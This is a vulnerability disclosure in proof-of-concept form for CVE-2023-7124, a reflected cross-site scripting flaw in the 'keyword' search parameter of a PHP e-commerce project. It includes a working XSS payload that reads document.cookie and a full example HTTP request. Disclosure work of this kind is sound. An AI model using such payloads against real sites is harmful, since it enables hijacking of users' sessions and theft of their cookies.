 # CVE-2023-7124_E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7124_E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-site-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2019/10/E-COMMERCE_SITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7124

## References: 
+ **CVE-2023-7124:** https://vuldb.com/?id.249096
+ https://www.cve.org/CVERecord?id=CVE-2023-7124
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7124
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7124

## Description:
E-commerce Site 1.0 allows Reflected Cross-site Scripting via parameter 'keyword' in "/ecommerce/search.php". E-commerce Site is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Search for Product: "http://localhost/ecommerce/search.php"
+ Use this payload: `<video/src=x onerror=alert(document.cookie)>`
+ Fill the payload and Enter.
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'keyword' parameter:
```
POST /ecommerce/search.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ml92pvb86qoqm8rjs4vhgk86v7
Referer: http://localhost/ecommerce/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

keyword=%3Cvideo/src=x%20onerror=alert(document.cookie)%3E%20
```

+ Example payload:
```
<video/src=x onerror=alert(document.cookie)>
```
![1-1](https://github.com/h4md153v63n/CVEs/assets/5091265/85674d4d-34f4-4dc3-95b4-b010401dd04e)
<br>
<br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/5225831f-4eef-41df-bd4e-c9e41901dce0)
